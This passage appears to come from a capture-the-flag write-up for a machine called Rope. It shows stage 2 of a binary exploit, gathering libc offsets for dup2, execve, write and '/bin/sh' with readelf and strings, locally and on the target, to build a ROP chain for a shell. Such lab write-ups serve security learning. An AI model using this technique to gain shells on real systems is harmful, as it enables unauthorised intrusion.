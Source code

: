 Now with the libc address known, I can write a rop chain that will give
me execution. The commands used to get the offsets are shown in comments
below, run both locally and on Rope:



    ### Stage 2: Shell
    # build rop

    if target == 'local':
    # readelf -s /usr/lib/x86_64-linux-gnu/libc-2.28.so | grep -e " dup2@@GLIBC" -e " execve@@GLIBC" -e " write@@GLIBC"
    #1010: 00000000000eabf0    33 FUNC    WEAK   DEFAULT   13 dup2@@GLIBC_2.2.5
    #1506: 00000000000c6a00    33 FUNC    WEAK   DEFAULT   13 execve@@GLIBC_2.2.5
    #2267: 00000000000ea4f0   153 FUNC    WEAK   DEFAULT   13 write@@GLIBC_2.2.5
    # strings -a -t x /usr/lib/x86_64-linux-gnu/libc-2.28.so | grep /bin/sh
    # 181519 /bin/sh
        dup2_offset   = 0xeabf0
        execve_offset = 0xc6a00
        write_offset  = 0xea4f0
        binsh_offset  = 0x181519

    else:
    # readelf -s libc.so.6_ | grep -e " dup2@@GLIBC" -e " execve@@GLIBC" -e " write@@GLIBC"
    #   999: 00000000001109a0    33 FUNC    WEAK   DEFAULT   13 dup2@@GLIBC_2.2.5
    #  1491: 00000000000e4e30    33 FUNC    WEAK   DEFAULT   13 execve@@GLIBC_2.2.5
    #  2246: 0000000000110140   153 FUNC    WEAK   DEFAULT   13 write@@GLIBC_2.2.5
    # strings -a -t x libc.so.6_  | grep /bin/sh
    # 1b3e9a /bin/sh
        dup2_offset   = 0x1109a0
        execve_offset = 0xe4e30
        write_offset  = 0x110140
        binsh_offset  = 0x1b3e9a
